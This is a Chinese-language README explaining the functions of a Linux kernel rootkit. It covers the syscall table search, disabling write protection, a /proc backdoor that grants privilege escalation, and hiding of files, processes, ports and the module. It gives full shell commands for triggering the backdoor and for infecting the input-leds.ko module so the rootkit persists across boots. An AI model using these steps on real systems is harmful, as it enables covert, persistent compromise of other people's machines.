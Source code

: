 [TOC]

## 解释rootkit.c中功能对应的函数 & authme.sh两部分

基本参考网址：

https://www.freebuf.com/sectool/105713.html：搜索系统调用表&关闭/开启内存写保护

https://www.freebuf.com/articles/system/107829.html：后门、文件隐藏、进程隐藏、端口隐藏、模块隐藏

https://www.freebuf.com/articles/system/109034.html：感染系统模块实现自启

1、搜索系统调用表sys_call_table：暴力搜索：

```c
unsigned long *find(void)
```

2、关闭/开启内存写保护：

```c
void disable_wp(void)
void enable_wp(void)
```

3、后门：

```c
#define NAME "PROMOTION"
#define AUTH "AUTHME"
struct proc_dir_entry *entry;
ssize_t write_handler(struct file * filp, const char __user *buff,
              size_t count, loff_t *offp);
struct file_operations proc_fops = {
    .write = write_handler
};
```

authme.sh前一半测试，通过id和对file文件的读取权限的改变

```shell
# can not read /proc/kcore
id && file /proc/kcore
# now we can
printf '%s' try_promotion > /proc/PROMOTION && \
	printf '%s' AUTHME > /proc/PROMOTION && \
	id && \
	file /proc/kcore
```

4、文件隐藏：

```c
int fake_iterate(struct file *filp, struct dir_context *ctx);
int fake_filldir(struct dir_context *ctx, const char *name, int namlen,
             loff_t offset, u64 ino, unsigned d_type);
```

5、进程隐藏：

```c
int fake_iterate_ps(struct file *filp, struct dir_context *ctx);       
int fake_filldir_ps(struct dir_context *ctx, const char *name, int namlen,
             loff_t offset, u64 ino, unsigned d_type);
```

6、端口隐藏：

```c
int fake_seq_show(struct seq_file *seq, void *v);
```

7、模块隐藏：

```c
int fake_iterate_md(struct file *filp, struct dir_context *ctx);
int fake_filldir_md(struct dir_context *ctx, const char *name, int namlen,
             loff_t offset, u64 ino, unsigned d_type);
int fake_seq_show_md(struct seq_file *seq, void *v);
```

8、模块感染系统模块input-leds.ko实现自启，在authme.sh后一半实现（见下），其中setsym是使用一个博主自己编写的工具，详见第二部分

```sh
# auto start by linking to the sys's input-leds.ko module
# cp the target module to current workdir & check the init and exit func
cp /lib/modules/$(uname -r)/kernel/drivers/input/input-leds.ko .
readelf -s input-leds.ko | grep -e grep -e input_leds_init -e input_leds_exit

# set the init and exit func to global & check if objcopy succeed
objcopy input-leds.ko inputleds.ko --globalize-symbol input_leds_init --globalize-symbol input_leds_exit
readelf -s inputleds.ko | grep -e grep -e input_leds_init -e input_leds_exit

# link the target module and malicous module together
ld -r inputleds.ko rootkit.ko -o infected.ko

# change the host's init_module/cleanup_module ->  rk_init/rk_exit, using a tool named 'setsym'
setsym infected.ko init_module $(setsym infected.ko rk_init)
setsym infected.ko cleanup_module $(setsym infected.ko rk_exit)

# rmmod the origin target module & insmod the linked one
rmmod input-leds.ko
insmod infected.ko
```



## 自启中使用的setsym工具

在使用前输入指令:

```shell
make
sudo make install
```



## ELSE:

Q: win上传文件会自动修改换行方式为当前系统

A: 可以修改git全局配置，禁止git自动将lf转换成crlf,  命令：

​	git config --global core.autocrlf false